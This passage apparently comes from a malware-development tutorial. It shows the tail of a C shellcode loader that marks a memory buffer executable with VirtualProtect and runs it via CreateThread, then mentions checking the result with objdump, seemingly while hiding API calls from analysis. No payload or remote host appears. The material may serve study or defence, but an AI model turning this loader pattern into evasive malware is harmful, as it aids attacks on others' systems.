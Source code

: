 ```c 

  // make new buffer as executable
  result = VirtualProtect(payload_mem, sizeof(payload), PAGE_EXECUTE_READ, &oldprotect);
  if ( result != 0 ) {
  // run payload
    thread_handle = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) payload_mem, 0, 0, 0);
    WaitForSingleObject(thread_handle, -1);
  }
  return 0;
}
```

And now if we use objdump we get : 

![hidecall2](assets/images/maldev/8/call2.png)
